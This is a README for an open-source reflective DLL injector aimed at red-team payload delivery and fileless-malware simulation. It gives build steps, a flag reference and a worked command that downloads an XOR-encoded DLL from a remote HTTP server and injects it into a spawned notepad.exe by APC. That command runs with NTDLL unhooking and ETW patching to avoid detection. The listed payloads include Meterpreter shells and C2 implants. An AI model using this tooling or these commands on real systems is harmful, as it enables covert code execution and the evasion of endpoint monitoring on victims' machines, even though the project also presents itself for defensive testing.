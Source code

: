 # Reflective DLL Injector
[where CMakeList is]
```bash 
mkdir build
cd build
cmake .. -G "Visual Studio 17 2022" 
cmake --build .
```
This project is a modular, stealth-aware reflective DLL injector designed for:

- Red team payload delivery
- Testing AV/EDR behavioral detection
- Simulating fileless malware techniques
- Educational exploration of process injection

It supports:
- Reflective DLL injection (RDI)
- Fileless payload delivery (via URI or embedded)
- Multiple execution vectors (`CreateRemoteThread`, APC)
- Basic XOR or AES-CBC encryption
- ETW patching and NTDLL unhooking for stealth

---

## Payload Types & Creation

a payload must be a Reflective DLL, but that DLL can contain or bootstrap virtually anything:

| Payload Type	             | Description
|----------------------------|-------------------------------------------------|
| Custom Reflective DLL	     | Your own logic: MessageBox, beaconing, hooks, etc.
| Meterpreter-style DLL	     | Shell payloads from Metasploit, Empire, etc.
| Shellcode runner DLL	     | Reflective loader + embedded shellcode
| Donut-based loader	     | Reflective DLL that loads .NET, EXE, or PE shellcode
| C2 implant	             | Full-featured agent (Sliver, Havoc, etc.)
| Diagnostic tool	         | Debuggable test DLL (e.g., create file, log PID, UI popup)

This injector supports raw DLL binaries that export a special function called `ReflectiveLoader`.

### Supported Payloads

| Format                     | Description                                     |
|----------------------------|-------------------------------------------------|
| Raw DLL                    | Traditional PE-formatted DLL file              |
| XOR-encoded DLL            | Same DLL but XOR-obfuscated with a key         |
| AES-encrypted DLL          | DLL encrypted with AES-128-CBC                 |
| Embedded DLL               | DLL compiled directly into the injector source |
| Remote DLL (via URI)       | Payload hosted on HTTP server and loaded at runtime |

---

### How to Make a Reflective DLL

Reflective DLLs are standard DLLs that include a custom loader. You can:

#### Option 1: Use a Known Framework

- [Stephen Fewer’s ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- [TrustedSec's Unicorn](https://github.com/trustedsec/unicorn)
- [Donut (shellcode generator)](https://github.com/TheWover/donut)

#### Minimal Requirements:

1. Export a function called `ReflectiveLoader`
2. Implement logic inside that loader to:
   - Resolve `kernel32.dll` imports manually
   - Call `DllMain` with `DLL_PROCESS_ATTACH`
   - Be position-independent (optional but preferred)

# Usage Syntax

DLLInjector.exe [options]
Payload Source
Flag	Description
--embed	Use DLL embedded in embedded.cpp
--uri <url>	Download DLL from HTTP server

Payload Decoding
Flag	Description
--xor <key>	XOR-decode payload with given string key
--aes <key>	AES-128-CBC decrypt with given key
--iv <iv>	Initialization Vector for AES (16 bytes)

Process Targeting
Flag	Description
--target <name>	Inject into a running process (e.g. notepad.exe)
--spawn <path>	Launch process in suspended mode for stealth injection

Execution Methods
Flag	Description
--exec crt	Use CreateRemoteThread
--exec apc	Use QueueUserAPC injection

Evasion Features
Flag	Description
--unhook	Restore clean syscalls (NTDLL unhooking)
--patch-etw	Patch EtwEventWrite/related functions

Examples
🔹 Embedded DLL into running notepad.exe

Download + XOR-decode and APC inject:
```bash
DLLInjector.exe ^
  --uri http://192.168.1.100/payload.dll ^
  --xor mykey ^
  --spawn "C:\\Windows\\System32\\notepad.exe" ^
  --exec apc ^
  --unhook --patch-etw
```
